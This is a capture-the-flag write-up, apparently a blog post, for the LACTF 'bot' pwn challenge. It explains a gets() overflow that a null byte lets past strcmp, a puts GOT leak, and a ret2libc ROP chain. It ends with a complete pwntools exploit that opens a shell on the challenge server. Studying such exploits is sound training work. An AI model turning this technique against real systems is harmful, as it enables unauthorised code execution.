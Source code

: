 ```yaml
---
title: "LACTF Pwn Bot"
date: 2023-03-05T02:53:20-08:00
summary: "Intermediate ret2libc challenge solved by writing a rop chain to get a shell"
tags: ["pwn", "pwntools", "ret2libc", "rop", "ropchain"]
---
```


Classic ret2libc challenge.
There is no obvious shortcut, so we might need to write a ropchain.
<!-- more -->

We get the bot executable, libc, ld, Dockerfile and the bot.c code.
{{%attachments title="Related files" /%}}

From the c code we can see that `gets` is used to take our input, so our first step should be to get rip control.
For this we need to overwrite the return pointer of main, but the first tricky part will be to do that while actually reaching the return instruction of main. This is because, as we can see in the code below, if our input doesnt match "please please please give me the flag", we will enter the else of the first if, and the program will exit without returning from main.

```c
if (strcmp(input, "give me the flag") == 0) {
    puts("lol no");
  } else if (strcmp(input, "please give me the flag") == 0) {
    puts("no");
  } else if (strcmp(input, "help, i have no idea how to solve this") == 0) {
    puts("L");
  } else if (strcmp(input, "may i have the flag?") == 0) {
    puts("not with that attitude");
  } else if (strcmp(input, "please please please give me the flag") == 0) {
    puts("i'll consider it");
    sleep(15);
    if (give_flag) {
      puts("ok here's your flag");
      system("cat flag.txt");
    } else {
      puts("no");
    }
  } else {
    puts("sorry, i didn't understand your question");
    exit(1);
  }
```

Fortunately, because strcmp stops comparing at null bytes, but gets doesnt stop recieving input at null bytes we can add a null  byte after our initial string, and then keep sending input to reach the return pointer of main. We would then need to send the correct amounts of bytes to control the instruction pointer. We can find the correct offset with the following code and gdb.

```py
payload = b"please please please give me the flag"
payload += b"\x00" 
payload += b"A"*4

p.sendline(payload)
```
![stack at the end of main](./images/gdb1.png "stack at the end of main")

After setting a breakpoint right before the return of main, continuing and inspecting the stack where our input is stored, we can see that our A's end at **0x7ffe176ee3aa**. Now we just need to locate the return pointer of main. Pwndbg makes this very easy for us by showing us the address of the next instruction after main (**0x7f9bd98e7d0a**), so then we just need to find that address on the stack and subtract where our A's ended.

![return pointer of main](./images/gdb2.png "return pointer of main")
![calculating offset](./images/gdb3.png "calculating offset")

Since the result was 30 and we have already sent 4 A's we change our python code to send a total of 34 A's, which should give us control of the instruction pointer. Now we need to leak a libc address to find the base and use that to call system to pop a shell. We choose to leak the address of puts as we know from the c code that it is being used in the program.

To make our debugging easier we use pwninit to link our executable with the given libraries and create a solve.py template for us. We wish to use puts to print the address of puts in libc. For that to happen we need the RIP to point at a pop rdi instruction, then the address of puts in the GOT and the address of puts in the PLT. We find a `pop rdi; ret` instruction at 0x40133b with ropper, and use the pwn library for the rest. Our payload now looks like this:

```py
pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])
```

We call main at the end, so were will be asked for input again and can send a payload with system("/bin/sh"). This first payload leaks the address of puts in libc, which, since we know the libc version, allows us to calculate and store the base address of libc. We also decide to log the address of puts in libc as a sanity check:

```py
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base
```
![libc leak](./images/leak.png "libc leak")

Great, it worked! Now the remaining part is quite simple. We do the same thing as with the first payload, but this time we find an instance of "/bin/sh" in the libc and places that on the stack as our argument. Then we call system from libc, which we can do because we already stored the libc base. Finally we finish with exit to keep the program happy.

```py
libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)
```

The above payload works just as intended and we successfully pop a shell! :)<br>
This was my first writeup, I hope you enjoyed and maybe learned something.

![shell popped](./images/shell.png "shell popped")

## Full exploit:
```py
from pwn import *

exe = ELF("./bot_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe

#p = process("./bot_patched")
#gdb.attach(p)

p = remote("lac.tf", 31180)

pop_rdi_ret = 0x40133b

puts_got = exe.got["puts"]
log.info("puts in got: " + hex(puts_got))
puts_plt = exe.plt["puts"]

payload = b"please please please give me the flag"
payload += b"\x00" # string terminate for strcmp
payload += b"A"*34 # offset after initial string
payload += p64(pop_rdi_ret)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(exe.sym["main"])

p.recvline()
p.sendline(payload)

p.recvline()
p.recvline()
recieved = p.recvline().strip()
leak = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, puts: "+ str(hex(leak)))

libc.address = leak - libc.symbols["puts"] # save libc base

p.recvline()

libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = b"please please please give me the flag"
second_payload += b"\x00" 
second_payload += b"A"*34 
second_payload += p64(pop_rdi_ret)
second_payload += p64(binsh)
second_payload += p64(libc_system)
second_payload += p64(libc_exit) # gracefully :)

p.sendline(second_payload)

p.interactive()
```
